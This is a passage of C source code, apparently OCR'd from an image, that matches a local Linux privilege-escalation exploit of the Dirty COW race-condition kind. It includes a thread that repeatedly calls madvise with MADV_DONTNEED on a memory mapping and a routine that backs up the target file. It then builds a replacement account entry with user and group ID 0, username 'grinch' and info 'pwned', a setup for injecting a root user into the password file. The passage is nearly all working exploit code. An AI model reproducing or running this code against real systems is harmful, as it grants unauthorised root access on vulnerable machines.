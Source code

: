 ```
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "grinch";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
```